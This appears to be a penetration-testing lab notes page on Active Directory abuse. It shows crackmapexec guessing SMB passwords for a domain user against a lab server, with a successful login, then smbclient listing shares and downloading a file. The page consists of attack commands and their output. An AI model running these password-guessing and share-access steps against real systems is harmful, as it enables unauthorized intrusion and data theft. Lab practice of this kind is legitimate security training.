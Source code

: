 	
## Crackmapexec

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ crackmapexec smb 192.168.200.100 -u thor -p pword.txt -d valhalla.local          
	SMB         192.168.200.100 445    ODIN             [*] Windows Server 2012 R2 Standard Evaluation 9600 x64 (name:ODIN) (domain:valhalla.local) (signing:True) (SMBv1:True)
	SMB         192.168.200.100 445    ODIN             [-] valhalla.local\thor:admin STATUS_LOGON_FAILURE 
	SMB         192.168.200.100 445    ODIN             [-] valhalla.local\thor:password STATUS_LOGON_FAILURE 
	SMB         192.168.200.100 445    ODIN             [-] valhalla.local\thor:s3cr3t STATUS_LOGON_FAILURE 
	SMB         192.168.200.100 445    ODIN             [-] valhalla.local\thor:12345 STATUS_LOGON_FAILURE 
	SMB         192.168.200.100 445    ODIN             [+] valhalla.local\thor:Pass123!



# Enum Shares

## smbclient

Detect

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ smbclient -L 192.168.200.100 -U valhalla.local/testuser                                                                                           1 ⨯
	Enter VALHALLA.LOCAL\testuser's password: 

			Sharename       Type      Comment
			---------       ----      -------
			ADMIN$          Disk      Remote Admin
			C$              Disk      Default share
			IPC$            IPC       Remote IPC
			NETLOGON        Disk      Logon server share 
			share           Disk      
			SYSVOL          Disk      Logon server share 
	SMB1 disabled -- no workgroup available


Connect

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ smbclient \\\\192.168.200.100\\share -U valhalla.local/testuser
	Enter VALHALLA.LOCAL\testuser's password: 
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Sat Aug 14 19:43:34 2021
	  ..                                  D        0  Sat Aug 14 19:43:34 2021
	  projectx.txt                        A       24  Sat Aug 14 20:07:25 2021

					15638527 blocks of size 4096. 13126313 blocks available
	smb: \> get projectx.txt 
	getting file \projectx.txt of size 24 as projectx.txt (11.7 KiloBytes/sec) (average 11.7 KiloBytes/sec)
	smb: \> 
